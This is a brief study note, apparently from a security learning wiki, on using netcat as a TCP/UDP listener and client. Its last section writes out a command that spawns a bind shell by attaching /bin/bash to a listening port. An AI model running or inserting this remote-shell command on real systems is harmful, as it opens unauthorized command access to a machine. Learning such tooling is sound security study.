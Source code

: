 
### General Notes

> `nc` for short.
> Allows various operations on TCP/UDP [[Transport Layer]] connections.
> Used in [[Web Application Fingerprinting]].

> Both a network client and a network server.

---

### netcat as a server: Listener

>Netcat to act as a server to listen on a specific port.
>`-l` flag to listen.
>`-v` flag for verbosity.
>`-p` flag to choose [[Port]] `8888`.
>`-u` flag for udp.
```
nc -lvp 8888

nc -lvup 9999
```

---

### netcat as a client: Connector

> Netcat to act as a client to a specific target [[IP]] address and port.
```
nc -v <ip-address> <port>

nc -vu <ip-address> <port>
```

---

### netcat to spawn bind shell

> On the server side, add the flag `-e` with the argument `/bin/bash`.
> This executes the given program upon connection by a client.

* Server side: `nc -lvp 8888 -e /bin/bash`
* Client side: `nc -v <server-ip> 8888

> Now, the client can execute binary commands, and a bind shell is spawned.

---
